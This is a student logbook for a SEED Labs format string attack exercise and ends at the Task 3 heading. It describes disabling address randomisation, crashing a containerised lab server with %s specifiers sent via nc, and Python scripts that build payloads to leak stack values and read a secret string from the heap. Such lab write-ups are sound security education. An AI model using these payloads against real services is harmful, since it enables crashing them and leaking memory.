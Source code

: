 # Seedlab Week #6 (Format String Attack Lab)

# Question 1

### Initial setup

1. Run `sudo sysctl -w kernel.randomize_va_space=0` to disable address randomization.
2. Compile the program using `make && make install`.
3. Start the server in a new terminal by running `docker-compose build` followed by `docker-compose up` in the `/ftm-containers` folder. This setup allows us to view the server's output.

### Task 1: Crashing the Program

The goal of this task is to crash the program by exploiting a format string vulnerability.

Common format string parameters used in this lab:

| Parameters | Output | 
| ---------- | ------ |
| `%x`       | Reads a value from the stack. |
| `%s`       | Reads a string from the process's memory. |
| `%n`       | Writes the number of characters printed so far to an address in memory. |

To crash the program, we sent a series of `%s` format specifiers. The server interprets these as pointers to strings, and and at some point tries to access an invalid memory address, causing a crash. We executed the following command: `echo %s%s%s%s%s | nc 10.9.0.5 9090` and then pressed `Ctrl + C`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task1.png"/>
</p>

As shown in the output, the line `(ˆ_ˆ)(ˆ_ˆ) Returned properly (ˆ_ˆ)(ˆ_ˆ)` is missing, indicating that the program crashed.

<!-- > **Note** in this task we could send just one `%s` because the first value in a stack is `0x11223344` ... Sera que da para esplicar porque isso nao endereso valido? -->

### Task 2: Printing Out the Server Program’s Memory

#### Task 2.A: Stack Data.

In this task, we aimed to print data from the stack and determine how many `%x` specifiers are needed to print the first 4 bytes of our input.

To achieve this, we used a Python script (`build_string.py`) to create a payload:

```py
import sys

s = b"AAAA" + b".%x"*100

with open('badfile', 'wb') as f:
  f.write(s)
```

The payload starts with `AAAA` followed by 100 `%x` specifiers, separated by dots for readability. And run `python3 build_string.py`; `cat badfile | nc 10.9.0.5 9090` and pressed `Ctrl + C`.

The output on the server:

<!-- se calhar por em vermelho o 41414141 -->
<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2a.png"/>
</p>


We observed that the value `41414141` (hexadecimal representation of `AAAA`) appeared at the 64th position (counting the number of dots). This indicates that 64 `%x` specifiers are needed to print our 4 bytes from the process memory.

#### Task 2.B: Heap Data

In this attack the objective was to read a string from a specific address printed by the server:
<!-- Ele sempre o mesmo? -->
```bash
server-10.9.0.5 | The secret message's address:  0x080b4008
```
Steps to achieve this:

1. Place the address of the secret message (`0x080b4008`) at the beginning of the payload.
2. Use 63 consequences `%x` to skip 63 values on the stack (based on the previous task, where 63 values precede our written bytes).
3. Add single `%s` to instruct the server to read a string from the stack, which will be the address we placed in the step 1.

The final `build_string.py` code:

```py
import sys

address = 0x080b4008
address_in_bytes = (address).to_bytes(4,byteorder='little')

payload = address_in_bytes + b"%x"*63 + b"%s"

with open('badfile', 'wb') as f:
  f.write(payload)
```

We runed `python3 build_string.py` then sent `echo hello` to verify the string's address and then used our `badfile` to read a string (`cat badfile | nc 10.9.0.5 9090`).

The output:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK6/task2b.png"/>
</p>

At the end of the output, we saw the string `"A secret message"`, confirming that we successfully read data from the heap.

### Task 3: Modifying the Server Program’s Memory

